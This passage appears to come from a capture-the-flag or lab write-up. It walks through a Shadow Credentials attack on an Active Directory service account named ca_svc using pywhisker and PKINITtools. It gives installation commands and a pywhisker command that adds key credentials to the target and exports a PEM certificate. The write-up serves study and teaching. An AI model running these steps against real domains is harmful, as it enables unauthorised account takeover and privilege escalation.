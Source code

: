 I have a full article on my blog regarding this attack here: <https://bloodstiller.com/articles/shadowcredentialsattack/>


#### Using pywhisker To Perform A Shadow Credentials Attack Against `ca_svc`: {#using-pywhisker-to-perform-a-shadow-credentials-attack-against-ca-svc}


##### Install Required Programs: {#install-required-programs}

We will need two programs to perform this attack [pywhisker](https://github.com/ShutdownRepo/pywhisker) &amp; [pkinit](https://github.com/dirkjanm/PKINITtools).



-  pywhisker:

    If you have not setup pywhisker before run the following commands to download the repo and setup a python virtual environment.

    ```shell
    git clone https://github.com/ShutdownRepo/pywhisker.git
    cd pywhisker
    python3 -m venv whisker
    source whisker/bin/activate
    pip install -r requirements.txt
    ```



-  pkinittools:

    If you have not setup pkinittools before run the following commands to download the repo and setup a python virtual environment.

    ```shell
    git clone https://github.com/dirkjanm/PKINITtools.git
    cd pkinit
    python -m venv pk
    source pk/bin/activate
    pip install -r requirements.txt
    ```


##### 1. Add shadow credentials to the `ca_svc` account &amp; export `.PEM`: {#1-dot-add-shadow-credentials-to-the-ca-svc-account-and-export-dot-pem}

```shell
python3 pywhisker.py -d $domain -u $user -p $pass --target "CA_SVC" --action "add" --filename CACert --export PEM
```

{{< figure src="/ox-hugo/2025-06-05-063923_.png" >}}

-   +Note+: If you do this and you get the below about having insufficient rights this is due to the fact that there is a mechanism on the host where the user `p.agila` whom we added to the "service accounts" group is removed after x amount of time.
{{< figure src="/ox-hugo/2025-06-05-063457_.png" >}}
